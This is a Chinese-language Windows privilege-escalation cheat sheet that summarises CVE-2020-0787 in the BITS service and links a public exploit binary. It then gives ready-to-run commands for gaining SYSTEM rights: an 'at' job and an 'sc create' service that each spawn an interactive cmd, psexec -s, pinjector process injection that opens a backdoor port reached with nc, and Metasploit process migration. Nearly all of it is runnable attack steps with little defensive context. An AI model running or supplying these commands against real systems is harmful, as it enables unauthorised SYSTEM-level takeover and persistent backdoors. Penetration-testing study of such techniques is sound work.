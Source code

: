 1.漏洞描述 当Windows Background Intelligent Transfer Service (BITS)未能正确地处理符号链接时，存在权限提 升漏洞。成功利用此漏洞的攻击者可以覆盖导致提升状态的目标文件。要利用此漏洞，攻击者首先必须 登录到系统。然后，攻击者可以运行巧尽心思构建的应用程序，利用此漏洞并控制受影响的系统。 

2.影响版本 https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-0787 

3.漏洞复现 下载地址 https://github.com/cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION/releases 

```
c:\windows\debug\WIA\BitsArbitraryFileMoveExploit.exe
```

## WIN本地用户

### at命令

at命令是一个计划命令，可以在规定时间完成一些操作，这个命令调用system权限

适用版本：Win2000 & Win2003 & XP中还是存在的，在Win7以后被剔除

当我们拿到低权限的用户，通过连接上服务器后，可以通过at命令来进行本地提权

```
at 21:00 /interactive cmd (在20:33分生成一个交互式的System权限的cmd)
```

### sc

sc是用于与服务控制管理器和服务进行通信的命令行程序。提供的功能类似于控制面板中管理工具项中的服务。适用版本：windows 7、8、03、08、12、16（win2k3 ok 其他未测基本失败）

```
#创建一个名叫syscmd的新的交互式的cmd执行服务
sc Create syscmd binPath= "cmd /K start" type= own type= interact
#运行服务
sc start syscmd
```

### psexec

https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools

```
psexec.exe -accepteula -s -i -d cmd #调用运行cmd
```

### 进程迁移注入

相当于开了一个后门，注入到其他用户进程下！
1、Win2008以前版本 

```
pinjector -l
pinjector -p 420 cmd 3333
nc 192.168.46.149 3333
```

2、MSF进程注入

```
ps //查看进程
migrate PID //迁移对应PID
```
